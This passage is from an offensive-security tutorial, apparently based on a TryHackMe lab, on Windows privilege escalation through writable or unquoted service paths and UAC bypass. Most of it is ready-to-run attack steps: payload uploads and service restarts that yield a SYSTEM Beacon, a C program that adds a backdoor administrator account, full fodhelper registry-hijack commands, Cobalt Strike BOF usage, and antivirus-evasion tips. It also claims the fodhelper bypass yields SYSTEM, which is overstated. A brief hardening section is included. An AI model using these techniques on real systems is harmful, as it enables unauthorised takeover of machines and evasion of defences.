icacls "C:\Program Files\Vulnerable Service1"
```


```
BUILTIN\Users:(OI)(CI)(W)   ← Jackpot!
```

---

### Exploitation – Two Approaches

---

##### Approach 1: Direct Payload Drop (Fast & Dirty)

##### Step 1: Check service status

```bash
shell sc query "Vulnerable Service 1"
```


##### Step 2: Upload & rename payload

```bash
upload /home/elliot/runner.exe C:\Program Files\Vulnerable Service1\runner.exe

shell move "C:\Program Files\Vulnerable Service1\runner.exe" "C:\Program Files\Vulnerable Service1\Service.exe"
```

> Exploits: `C:\Program Files\Vulnerable Service\Service.exe`

##### Step 3: Restart service

```bash
shell sc stop "Vulnerable Service 1"
shell sc start "Vulnerable Service 1"
```


**Boom** → **SYSTEM Beacon**

```bash
whoami
nt authority\system
```

---

### Approach 2: jaxafed’s C Admin Adder (Stable & Clean)

> https://jaxafed.github.io/posts/tryhackme-hack_smarter_security/#hijacking-service-binary

#### `addadmin.c`

```c
#include <stdlib.h>

int main() {
    system("net localgroup Administrators tyler /add");
    system("net localgroup \"Remote Desktop Users\" tyler /add");
    return 0;
}
```

##### Compile (on attacker)

```bash
x86_64-w64-mingw32-gcc addadmin.c -o "Service.exe"
```

##### Upload & rename

```bash
upload Service.exe "C:\Program Files\Vulnerable Service1\Service.exe"
```

##### Trigger

```bash
sc start "Vulnerable Service 1"
```

**Result**:
```cmd
C:\> net localgroup Administrators
Administrator
tyler   ← RDP + Admin!
```

---

##### OPSEC & Evasion Tips

| Risk | Fix |
|------|-----|
| `.exe` on disk | Use **.cmd**, **.ps1**, or **DLL hijack** |
| AV flags payload | Use **signed binaries** (`cmstp.exe`, `msbuild.exe`) |
| Service fails to start | Match **original file size/type** |

---

##### Defense – How to Fix It

##### 1. **Always quote paths**

```powershell
BinaryPathName = "\"C:\Program Files\Vulnerable Service\Service.exe\""
```

##### 2. **Restrict write permissions**

```cmd
icacls "C:\Program Files\Vulnerable Service1" /remove "Users"
```

##### 3. **Audit with PowerShell**

```powershell
Get-WmiObject win32_service | Where-Object {
    $_.PathName -like '* *' -and $_.PathName -notlike '"*"' -and $_.PathName -notlike 'C:\Windows\*'
} | Select Name, PathName
```

##### 4. **AppLocker / WDAC**

Block execution from:
- `C:\Program Files\*`
- `C:\PerfLogs\`
- User-writable dirs

---

##### Unquoted Service Path Cheat Sheet

| Step | Command |
|------|---------|
| **Find** | `wmic service ... \| findstr /v "\""` |
| **Verify** | `sc qc <name>` + `icacls <path>` |
| **Exploit** | Drop `Service.exe` in middle path |
| **Trigger** | `sc start <name>` |
| **Clean** | `sc delete <name>` |

---
## Understanding UAC (User Account Control) – The Final Boss of Local Privesc

`UAC` is **Windows’ last line of defense** between a **local Administrator** and **full system control**. Even if you're in the `Administrators` group, **you don’t run as admin by default** — you run in **filtered token mode**.

> **Key Insight**:  
> **Being in `Administrators` ≠ Having admin rights**  
> **UAC splits the token** → You get a **Medium Integrity** shell, not High.

---

##### Integrity Levels – The Hidden Hierarchy

| Level | Description | Can Write To |
|-------|-------------|-------------|
| **Untrusted** | Anonymous, incognito | Nothing |
| **Low** | IE Protected Mode | Only `%TEMP%`, Downloads |
| **Medium** | Standard user, **filtered admin** | User profile, HKCU |
| **High** | Elevated admin | **System32, HKLM, etc.** |
| **System** | NT AUTHORITY\SYSTEM | Everything |
| **Installer** | TrustedInstaller | Windows modules |

> **Golden Rule**:  
> **Lower integrity → Cannot touch higher integrity objects**

---

##### UAC Configuration Options

| Setting | Behavior |
|--------|---------|
| **Prompt for credentials** | Forces password entry |
| **Prompt for consent** | Yes/No (admin only) |
| **Elevate without prompting** | **UAC = OFF** (rare) |

---

### Why UAC Is So Common in Pentests

1. **Admins add users to `Administrators` group** → "just in case"
2. **Default UAC = ON** → `EnableLUA = 1`
3. **Users think they’re admin** → But shell is **Medium Integrity**

> You’re **admin in name**, but **not in power** — until you **bypass UAC**




##### How to Check UAC Settings (On Target)

```bash
shell reg query "HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System"
```

**Key Values**:

| Value | Meaning |
|------|--------|
| `EnableLUA = 0x1` | **UAC is ON** |
| `EnableLUA = 0x0` | **UAC is OFF** (rare) |
| `ConsentPromptBehaviorAdmin = 5` | Prompt for consent (default) |
| `ConsentPromptBehaviorAdmin = 0` | **Auto-elevate** (bypass) |

---
### UAC verify

First of all we have to check if we are in `Administrator` group member?



we are member of `Administrator` but no SYSTEM becon or privileges of Administrator. WHY? cause user is restricited but we can bypass it. But we have to verify if there is really **UAC**

```bash
shell reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
```



- **`EnableLUA REG_DWORD 0x1`**
    - **Most Important** - This enables UAC (Local User Account control)
    - `0x1` = UAC is **ENABLED**
    - `0x0` = UAC is **DISABLED**
- **`ConsentPromptBehaviorAdmin REG_DWORD 0x5`**
    - Controls UAC prompts for administrators
    - `0x5` = **Prompt for consent for non-Windows binaries** (default)
    - This confirms UAC is actively prompting
- **`ConsentPromptBehaviorUser REG_DWORD 0x3`**
    - Controls UAC prompts for standard users
    - `0x3` = **Prompt for credentials** (standard users must enter admin creds)


### UAC Bypass Techniques

> **Warning**: Not all work on all Windows versions  
> **Patch level, AV, and UAC setting matter**

We’ll cover **2 bulletproof methods** used in CTFs and real engagements.

---

#### UAC Bypass #1: `fodhelper.exe` (Registry Hijack)

> **Works on**: Win10/11 (all builds)  
> **UAC Level**: Medium or High  
> **Disk Touch**: Yes (payload in `C:\ProgramData`)  
> **AV Evasion**: High (uses built-in binary)

### How It Works

1. `fodhelper.exe` is **AutoElevate = True** → bypasses UAC
2. It reads `HKCU\Software\Classes\ms-settings\Shell\Open\command`
3. We **hijack** this key → run our payload as **High Integrity**

---

##### Step-by-Step (PowerShell in Beacon)

```powershell
# 1. Create registry keys
powerpick New-Item "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Force
powerpick New-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "DelegateExecute" -Value "" -Force
powerpick Set-ItemProperty -Path "HKCU:\Software\Classes\ms-settings\Shell\Open\command" -Name "(default)" -Value "C:\ProgramData\runner.exe" -Force

# 2. Upload payload
upload /home/elliot/runner.exe C:\ProgramData\runner.exe

# 3. Trigger
powerpick Start-Process "C:\Windows\System32\fodhelper.exe" -WindowStyle Hidden
```



**Result**: `runner.exe` runs as **High Integrity** → **SYSTEM Beacon**

---

##### Proof: Before vs After

```cmd
# Before
C:\> icacls C:\Windows\System32\config\SAM
NT AUTHORITY\SYSTEM:(I)(F)
BUILTIN\Administrators:(I)(F)
You:(DENY)(R)   ← Access Denied (Error 5)
```


```cmd
# After bypass
C:\> whoami
nt authority\system
```


---

#### UAC Bypass #2: `uac_bypass_cmstplua` (BOF – Zero Prompt)

> **BOF**: https://github.com/netero1010/TrustedPath-UACBypass-BOF  
> **Binary**: `cmstp.exe` (signed by Microsoft)  
> **Disk**: No (in-memory)

##### How It Works

1. `cmstp.exe` is **trusted** and **AutoElevate**
2. Accepts `.inf` profile with `RunPreInstaller64`
3. BOF generates and executes in-memory

---

##### Usage (Cobalt Strike)

```bash
# Import BOF
beacon> load uac_bypass_cmstplua

# Execute
uac_bypass_cmstplua powershell -c "C:\ProgramData\runner.exe"
```


**No UAC prompt** → **Silent elevation**

---

##### UAC Bypass Cheat Sheet

| Method | Disk | Prompt | Windows | AV Evasion |
|-------|------|--------|---------|------------|
| `fodhelper` | Yes | No | 10/11 | High |
| `cmstp` BOF | No | No | 10/11 | Very High |
| `eventvwr` | Yes | No | 10 | Medium |
| `sdclt` | Yes | No | 10 | Low |

